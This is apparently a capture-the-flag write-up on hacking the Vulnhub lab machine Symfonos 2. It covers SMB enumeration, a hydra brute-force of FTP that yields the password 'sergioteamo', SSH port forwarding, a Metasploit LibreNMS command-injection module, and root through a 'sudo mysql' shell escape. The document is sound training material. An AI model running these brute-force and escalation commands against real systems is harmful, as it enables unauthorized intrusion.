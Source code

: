```yaml
---
title:     "Vulnhub - Symfonos 2"
tags: [medium,ftp, port_forward,smb,hydra,sudo]
---
```


Today, We are going to pwn Symfonos 2 by Zayotic from Vulnhub

## Description:

```
OSCP-like Intermediate real life based machine designed to teach the importance of understanding a vulnerability. SHOULD work for both VMware and Virtualbox.
```
Download Link : <https://www.vulnhub.com/entry/symfonos-2,331/>


Lets Begin with our Initial Scan

## Nmap Scan Results:
```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.5
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:5f:87:20:e5:8c:fa:68:47:7d:71:62:08:ad:b9 (RSA)
|   256 04:2a:bb:06:56:ea:d1:93:1c:d2:78:0a:00:46:9d:85 (ECDSA)
|_  256 28:ad:ac:dc:7e:2a:1c:f6:4c:6b:47:f2:d6:22:5b:52 (ED25519)
80/tcp  open  http        WebFS httpd 1.21
|_http-server-header: webfs/1.21
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:71:B2:8E (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: SYMFONOS2; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m22s, deviation: 2h53m12s, median: 22s
|_nbstat: NetBIOS name: SYMFONOS2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos2
|   NetBIOS computer name: SYMFONOS2\x00
|   Domain name: \x00
|   FQDN: symfonos2
|_  System time: 2020-03-09T12:31:01-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-09T17:31:01
|_  start_date: N/A
```

Lot of Ports open, I started with ``smb``

## SMB :

We can use smbmap to see is there any files available.

 > smbmap - SMB enumeration tool

> -H HOST   		IP of host

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos2/1.png)

So ``anonymous`` is having ``log.txt`` in ``/backups`` which is readable.

There is a tool called ``smbclient`` which helps to access to the server.

> smbclient - ftp-like client to access SMB/CIFS resources on servers

I tried login with ``anonymous`` without password and it worked, Downloaded the ``log.txt`` to my machine.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos2/2.png)

``log.txt`` 

Its the ``smb`` configuration, the Interesting thing is 


shadow file is stored in /var/backups/shadow.bak
``
root@symfonos2:~# cat /etc/shadow > /var/backups/shadow.bak
``


The exact path of the SMB share 
```
[anonymous]
   path = /home/aeolus/share
   browseable = yes
   read only = yes
   guest ok = yes
```
There is also FTP Conf file 

``root@symfonos2:~# cat /usr/local/etc/proftpd.conf``

So FTP is running under the user ``aeolus`` not anonymous.
```
# Set the user and group under which the server will run.
User				aeolus
Group				aeolus
```

## FTP :

We know the FTP is running under ``aeolus`` user but we don't have the password for it, So I started bruteforcing it using ``hydra``.

>hydra - a very fast network logon cracker which supports many different services


>hydra -l aeolus -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.101

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos2/3.png)


``aeolus : sergioteamo ``

Its the same ``log.txt`` we got from ``SMB``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos2/4.png)

## SSH :

I used the same creds for ``ssh``

``aeolus : sergioteamo ``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos2/5.png)

## Privilege Escalation :

Uploaded My Enumeration script to the machine and found some ports are listening to the machine.

```
================================================================( network )=====
[*] net000 Services listening only on localhost............................ yes!
---
tcp    LISTEN     0      80     127.0.0.1:3306                  *:*                  
tcp    LISTEN     0      128    127.0.0.1:8080                  *:*                  
tcp    LISTEN     0      20     127.0.0.1:25                    *:*                  
---
```

```
Port 3306 - MySQL
Port 25 - SMTP
Port 8080 - Webpage (Maybe)
```
I confirmed it by using ``curl``, There is a login page.
```
aeolus@symfonos2:/tmp$ curl localhost:8080
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="refresh" content="0;url=http://localhost:8080/login" />

        <title>Redirecting to http://localhost:8080/login</title>
    </head>
    <body>
        Redirecting to <a href="http://localhost:8080/login">http://localhost:8080/login</a>.
    </body>
</html>You have new mail in /var/mail/aeolus
```

We can't see port 8080 directly so We need to do [Port Forward](https://en.wikipedia.org/wiki/Port_forwarding) by doing this we can access the webpage from our machine.

For that press ``~C`` will open ssh interactive shell and then ``-L 8081:127.0.0.1:8080`` Which port forward 8080 to 8081.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos2/6.png)

``http://127.0.0.1:8081/``

It's ``LibreNMS`` Login page.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos2/7.png)

I searched for any exploits available and found this.

>https://www.rapid7.com/db/modules/exploit/linux/http/librenms_addhost_cmd_inject

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos2/8.png)

Now we got ``cronus`` user shell.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos2/9.png)

The First thing I did is ``sudo -l`` 

```
$ sudo -l
sudo -l
Matching Defaults entries for cronus on symfonos2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cronus may run the following commands on symfonos2:
    (root) NOPASSWD: /usr/bin/mysql
```
Looks like ``mysql`` can run as root without password.

I searched in [GTFOBins](https://gtfobins.github.io/gtfobins/mysql/)

> sudo mysql -e '\! /bin/sh'

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos2/10.png)


